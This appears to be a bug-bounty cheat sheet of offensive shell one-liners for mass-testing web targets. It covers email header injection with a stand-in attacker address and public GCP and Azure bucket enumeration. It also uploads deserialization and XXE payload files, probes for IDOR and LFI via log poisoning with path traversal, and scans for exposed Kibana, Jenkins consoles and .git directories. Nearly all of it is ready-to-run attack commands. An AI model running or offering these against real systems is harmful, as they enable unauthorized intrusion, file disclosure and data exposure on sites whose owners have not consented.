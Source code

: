 📬 **Email Injection via Contact Forms**  
```bash
cat urls.txt | qsreplace 'test%0d%0aBCC:evil@attacker.com' | httpx -silent -fr 'evil@attacker.com' -o email_injection.txt
```

🕵️‍♂️ **GCP Bucket Enumeration (Public Buckets)**  
```bash
cat subdomains.txt | sed 's/$/.storage.googleapis.com/' | httpx -silent -mc 200 -o gcp_buckets.txt
```

🛠️ **Deserialization via File Upload (PHP/JAVA Specific)**  
```bash
cat upload_endpoints.txt | xargs -I {} curl -X POST -F 'file=@payload.ser' {} -s -o - | grep 'java.lang' -B 2
```

🔗 **IDOR Detection via Incremental IDs**  
```bash
cat urls.txt | qsreplace 'id=123' | anew incremental_ids.txt
cat incremental_ids.txt | qsreplace 'id=124' | httpx -silent -fr 'profile' -o idor_found.txt
```

**Azure Blob Storage Enumeration**  
```bash
cat subdomains.txt | sed 's/$/.blob.core.windows.net/' | httpx -silent -mc 200 -o azure_blobs.txt
```

🎯 **XXE Injection via File Upload (XML Files)**  
```bash
cat upload_endpoints.txt | xargs -I {} curl -X POST -F 'file=@payload.xml' {} -s -o - | grep 'root:' -B 2
```

📊 **Exposed Kibana Dashboards (DevOps)**  
```bash
cat subdomains.txt | httpx -silent -path /app/kibana -mc 200 -o exposed_kibana.txt
```

**CVE Scanner for Web Targets (Nuclei One-Liner)**  
```bash
cat subdomains.txt | nuclei -silent -t cves/ -o found_cves.txt
```

📈 **LFI via Log Poisoning**  
```bash
cat urls.txt | qsreplace '../../../../../../../../var/log/nginx/access.log' | httpx -silent -fr 'GET /' -o log_poisoning_lfi.txt
```

🗄️ **Exposed Jenkins Console (DevOps)**  
```bash
cat subdomains.txt | httpx -silent -path /script -mc 200 -o exposed_jenkins.txt
```

📂  Exposed Git Directories (Sensitive Files in .git)
```bash
cat subdomains.txt | httpx -silent -path /.git/config -mc 200 -o exposed_git.txt
```
